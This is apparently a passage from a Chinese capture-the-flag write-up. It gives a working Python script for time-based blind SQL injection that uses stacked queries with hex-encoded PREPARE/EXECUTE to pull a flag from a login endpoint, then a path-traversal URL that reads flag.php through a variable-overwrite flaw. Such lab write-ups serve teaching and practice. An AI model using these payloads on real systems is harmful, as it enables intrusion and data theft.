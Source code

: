```python
import requests
import time
import json

dicts = r'{}_,.-0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz'

flag = ''

for i in range(1, 99999):
    for s in dicts:
        time.sleep(0.04)
        sql = 'select if(ascii(substr((select group_concat(flag) from flag),{},1))={}, sleep(2), 0)'.format(i, ord(s))
        payload = '\';prepare st from 0x{};execute st;'.format(''.join(map(lambda x: str(hex(ord(x))).replace('0x', ''), sql)))
        url = 'http://697bc918-3a4e-4630-b242-d992863b5859.node4.buuoj.cn:81/index.php?r=Login/Login'
        a = time.time()
        print(s)
        res = requests.post(url, data=json.dumps({
            'username': payload,
            'password': '123'
            }))
        b = time.time()
        if b -a >= 2:
            flag += s
            print('FOUND!!!',flag)
            break
```

跑出来是 `glzjin_wants_a_girl_friend.zip` , 于是下载该压缩包

网站是自己写的 mvc, 刚开始看没啥头绪, 然后看到了 extract

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211241656330.png)

变量覆盖, 但是 viewPath 这里是类的属性, 覆盖不了, 只能往加载的模板 userIndex 里再看看

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211241657054.png)

发现变量 `$img_file`, 可以读取文件, 遂改成 `/../flag.php`

```
http://697bc918-3a4e-4630-b242-d992863b5859.node4.buuoj.cn:81/index.php?r=User/Index&img_file=/../flag.php
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211241658142.png)
